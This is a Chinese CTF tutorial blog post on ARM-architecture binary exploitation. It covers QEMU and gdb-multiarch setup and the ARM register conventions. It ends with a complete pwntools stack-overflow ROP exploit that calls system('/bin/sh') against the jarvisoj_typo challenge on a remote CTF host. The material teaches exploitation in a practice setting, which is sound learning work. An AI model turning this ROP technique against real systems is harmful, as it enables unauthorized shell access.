








<!--yml
category: 未分类
date: 2022-04-26 14:37:03
-->

# CTF pwn -- ARM架构的pwn题详解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/116780827](https://blog.csdn.net/A951860555/article/details/116780827)

# 概述

  ARM架构过去称作进阶精简指令集机器（Advanced RISC Machine，更早称作：Acorn RISC Machine），是一个精简指令集（RISC）处理器架构，其广泛地使用在许多嵌入式系统设计。由于节能的特点，ARM处理器非常适用于移动通讯领域，符合其主要设计目标为低耗电的特性。因此我们常用的手机、平板等移动设备都是采用ARM体系架构的，因此CTF中不可避免也会出现ARM架构的pwn题。不过这种题目涉及的知识点都不会像x86体系架构那么深和细。

# 环境搭建

## 使用QEMU

  [QEMU](https://www.qemu.org/)
  借用官网的原话，`QEMU is a generic and open source machine emulator and virtualizer.`，qemu是一个通用的、开源的机器仿真器和虚拟机。因此我们可以在linux操作系统中安装它，然后用它来调试其它架构平台的程序。如何安装见下面代码所示：

```
 sudo apt update
sudo apt install qemu 
```

  在安装qemu后，对于静态链接的arm程序就已经可以直接运行了，使用命令`qemu-arm prog`运行32位的arm程序，其中prog指代程序名。但对于动态链接的程序还是无法正常运行，此时需要安装对应架构的动态链接库才行。
  如下面的命令和截图所示，这里以运行64位动态链接的arm程序为例，键入命令后发现有如下截图的libc版本返回，我们安装debug版本的，即`sudo apt install libc6-dbg-arm64-cross`。

```
sudo apt search "libc6" | grep arm 
```


  安装完后，在`/usr`目录下会出现`aarch64-linux-gnu`这个文件夹，该文件夹即对应刚安装好的arm64位libc库，之后我们使用下面的命令指定arm程序的动态链接器，即可运行程序。

```
qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./prog 
```

  这里补充一下关于架构的一些知识以及介绍下qemu对应的一些命令。`qemu-arm`指的是arm32架构的，用这个命令来运行32位的arm程序，而`qemu-aarch64`对应的才是arm64位架构的程序，上面两者默认都是小端程序；`qemu-armeb`用来运行大端的arm程序。当然在上面安装包截图中显示的是arm64，其实和aarch64指的是同一种体系结构，只不过命名略有不同。然后在上面的截图中我们还看到有`armel`和`armhf`，这主要是针对浮点计算来区分的，其中`armel (arm eabi little endian)`使用fpu浮点运算单元，但传参还是用普通寄存器；`armhf (arm hard float)`也使用fpu浮点运算单元，同时使用fpu中的浮点寄存器传参。`arm64`默认用的是`armhf`，所以也就没有这个后缀，因此有这个后缀区分的都是指的是32位arm架构。
  下面分别是arm架构对应的32位静态链接和64位动态链接程序，大家可以用这两个程序来测试一下自己的环境是否配置成功。
  [jarvisoj_typo](https://download.csdn.net/download/A951860555/18696517)
  [babyarm](https://download.csdn.net/download/A951860555/19371409)

## 使用gdb-multiarch

  这里主要介绍下如何使用gdb调试不同体系架构的pwn题，首先使用如下命令安装gdb-multiarch。

```
sudo apt update
sudo apt install gdb-multiarch 
```

  可能遇到的报错信息，如下图所示，类似问题一般是将ubuntu源换成了国内源导致的，此时备份好国内镜像源，重新换成国外的，再执行上面命令，安装好该软件后再换回国内的就行了。


  下面以调试32位静态链接的arm架构程序为例，首先我们先使用qemu对应架构的指令工具来启动该程序，由于示例的程序是静态编译的，所以就没有使用`-L`指定动态链接库目录。之后新开终端，使用gdb-multiarch，设置体系架构，连接本地调试端口即可。

```
 qemu-arm -g 8888 ./typo 
```

```
$ gdb-multiarch
......
......
pwndbg> set architecture arm
The target architecture is assumed to be arm
pwndbg> target remote localhost:8888 
```


  之所以不在gdb-multiarch中直接使用`file`命令加载程序，是因为直接使用的话默认会用x86体系架构来进行解释。如果想要使用pwntools进行调试的，参见下面的代码，之后在gdb-multiarch中的操作一样。

```
 p = process(["qemu-arm", "-g", "8888", "./typo"]) 
```

# ARM架构基本知识

## arm32位寄存器介绍

  接下来介绍下arm的一些基本知识，关于arm的函数调用约定，函数的第 1 ～ 4 个参数分别保存在 r0 ～ r3 寄存器中， 剩下的参数从右向左依次入栈， 被调用者实现栈平衡，函数的返回值保存在 r0 中。除此之外，arm 的 b/bl 等指令实现跳转; pc 寄存器相当于 x86 的 eip，保存下一条指令的地址，也是我们要控制的目标。



## arm64位寄存器介绍

  如下图所示，是我gdb动态调试截的图，包含了64位下的所有寄存器。其中寄存器用x[n]表示64位的，8字节，w[n]表示取低32位，4字节，x0~x7用来实现函数传参，不够则使用栈来传递，x0用来存放函数的返回值。x29即fp，栈底指针寄存器；x30即lr，用来保存子程序的返回地址。sp栈顶指针寄存器，指向栈顶数据；pc指令指针寄存器，存放下一条指令地址；cpsr程序状态寄存器。



# 一道例题

  下面以jarvisoj_typo为例子，如下截图所示，该程序是arm体系下的32位静态链接程序，本身只开启了NX保护。


  该程序本身去除了符号表，然后又是静态链接的，所以代码体积比较庞大，难以快速定位函数入口，所以这里我们可以在IDA下通过查看字符串的交叉引用快速定位到关键代码，然后结合程序运行结果，我们可以断定该程序存在栈溢出。



  根据x86体系架构下的做题经验，我们的利用思路就是实现栈溢出，首先调试确定ret_addr的位置，然后寻找一段可以控制r0的gadget，也就是让arm架构下函数的第一个参数为`/bin/sh\x00`的地址，最后返回执行system即可。完整exp如下：

```
from pwn import *

p = remote("node3.buuoj.cn", 25152)

p.sendline("")

sh = 0x0006c384

sys = 0x00010BA8

pop_r0_r4_pc = 0x00020904

pad = cyclic(112)+p32(pop_r0_r4_pc)+p32(sh)*2+p32(sys)

p.sendline(pad)

p.interactive() 
```

# 参考博客

  [如何在linux主机上运行/调试 arm/mips架构的binary](https://www.cnblogs.com/WangAoBo/p/debug-arm-mips-on-linux.html)
  [ctf-wiki: arm_rop_zh](https://wiki.x10sec.org/pwn/linux/arm/arm_rop-zh/)

# 总结

不忘初心，砥砺前行！